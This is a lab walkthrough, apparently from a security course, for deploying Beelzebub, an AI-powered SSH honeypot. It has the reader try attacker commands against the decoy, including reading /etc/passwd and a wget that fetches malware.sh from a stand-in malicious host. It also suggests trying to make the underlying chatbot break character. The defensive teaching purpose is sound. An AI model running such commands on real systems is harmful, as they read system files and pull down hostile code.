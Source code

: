 Beelzebub is an advanced honeypot framework designed to provide a highly secure environment for detecting and analyzing cyber attacks. It offers a low code approach for easy implementation and uses AI to mimic the behavior of a high-interaction honeypot

>[!IMPORTANT]
>
>You can find the original GitHub of at [Beelzebub Repo](https://github.com/mariocandela/beelzebub)

# Setup
Participants will deploy and monitor an AI-powered SSH honeypot (Beelzebub) to detect and analyze attacker behavior in real time

```bash
sudo su -
```
```bash
apt update && apt upgrade -y
```
```bash
systemctl enable --now docker
```
```bash
cd /opt
```
```bash
git clone https://github.com/mariocandela/beelzebub.git
```

### Get the ChatGPT Api Key
- Go to [ChatGPT](https://chatgpt.com/) and create an account if you don’t have one
- Make sure you have credits or a payment method at [Billing Setting](https://platform.openai.com/settings/organization/billing/overview)
- Go to [API Keys](https://platform.openai.com/api-keys) and create a new key
- Save this key as you will only see it once!

### Deployment
- Make sure you are into **/opt/beelzebub/**

```bash
nano docker-compose.yml
```
 - Put your key here
<img width="295" height="53" alt="image" src="https://github.com/user-attachments/assets/eca9345f-c69c-45f2-8a00-5cf389e42b3b" />


- Also comment the **Default SSH Mapping**(ssh 22 port)
<img width="176" height="81" alt="image" src="https://github.com/user-attachments/assets/f02190d4-36ec-4638-8817-aae8a33ece43" />

```bash
cd configurations/services/
```
```bash
mv ./ssh-22.yaml ~
```
```bash
nano ./ssh-2222.yaml
```
 - Add your key with double quotes around it like `OPENAI_API_KEY: "your_api_key_here"`
```bash
cd /opt/beelzebub/
```
```bash
docker-compose build
```
```bash
docker-compose up -d
```

# Try it
Connect to it like this:

```bash
ssh -p 2222 root@127.0.0.1
``` 
- use password "**1234**"
- Try using any commands like **ls** or **id**
<img width="659" height="126" alt="image" src="https://github.com/user-attachments/assets/914c1f89-c3d0-412d-bae6-7b9fcee70d9e" />

Everything you see is AI generated, and that's what an attacker would see

Cool, right?

- Try running suspicious commands an attacker would use
```bash
uname -a
```
```bash
cat /etc/passwd
```
```bash
wget http://malicious.example/malware.sh
```
```bash
id
```
Now exit the session to export the logs

```bash
cd /opt/beelzebub/
```
```bash
docker-compose logs -f
```
```bash
docker-compose logs > honeypot.log
```

Take your time into analyzing the logs and seeing how they are being built

>[!TIP]
>
>Try to make ChatGPT break character, this method, like anything else in cybersecurity isn't flawless, but it surely tricks hackers and does its job, **to increase Attack Time**

---
[Back to the Section](/courseFiles/Section_08-deceptionSystems/deceptionSystems.md)



